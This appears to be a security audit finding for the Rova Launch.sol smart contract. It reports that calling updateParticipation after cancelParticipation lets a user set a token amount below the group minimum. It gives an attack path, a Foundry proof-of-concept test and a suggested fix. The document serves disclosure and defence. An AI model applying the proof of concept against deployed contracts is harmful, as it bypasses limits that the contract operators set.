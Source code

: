 Melodic Plastic Caterpillar

High

# [High] - User can set their tokens less than the minimum required amount of tokens specified in `launchGroup`

### Summary

Missing check in `updateParticipation` allows user to set their tokens as less than the minimum amount.

### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312-L397

In `updateParticipation` there is a missing check to ensure that `prevInfo.tokenAmount != 0`  this allows user to cancel their initial participation and then update their participation to allow for lesser tokens

### Internal Pre-conditions

1. `manager` initializes the  `launchGroup` with `finalizesAtParticipation` set as `false`

### External Pre-conditions

None

### Attack Path

1. User calls `participate()` 
2. User calls `cancelParticipation()`
3. User calls `updateParticipation()` with `tokenAmount` less than `minTokenAmountPerUser` 

### Impact

The User is able to set his `tokenAmount` to be lesser than what the `Manager` defines while initializing `launchGroup`

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IERC20Errors} from "@openzeppelin/contracts/interfaces/draft-IERC6093.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo,
    CurrencyConfig,
    CancelParticipationRequest
} from "../src/Types.sol";
import {console} from "forge-std/console.sol";

contract LaunchUpdateParticipationTest is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public originalParticipationRequest;

    function setUp() public {
        _setUpLaunch();

        // Setup initial participation
        settings = _setupLaunchGroup();
        originalParticipationRequest = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(originalParticipationRequest));

        vm.startPrank(user1);
        currency.approve(
            address(launch),
            type(uint256).max
        );
        launch.participate(originalParticipationRequest, signature);

        vm.stopPrank();
    }


    function test_POC() public {
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));
        vm.startPrank(user1);

        // Update participation
        // User cancels request
        launch.cancelParticipation(cancelRequest, cancelSignature);

        // Prepare update participation request
        UpdateParticipationRequest memory request = _createUpdateParticipationRequest(1);
        bytes memory signature = _signRequest(abi.encode(request));

        // Update participation
        launch.updateParticipation(request, signature); // should revert but doesn't
        ParticipationInfo memory newInfo = launch.getParticipationInfo(request.newLaunchParticipationId);
        
        // shouldn't revert but does
        assert(settings.minTokenAmountPerUser > newInfo.tokenAmount); 
        vm.stopPrank();
    }

    function _createUpdateParticipationRequest(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
}

```

### Mitigation

`updateParticipation()` should have a check to ensure that `prevInfo.tokenAmount != 0` and `prevInfo.currencyAmount != 0`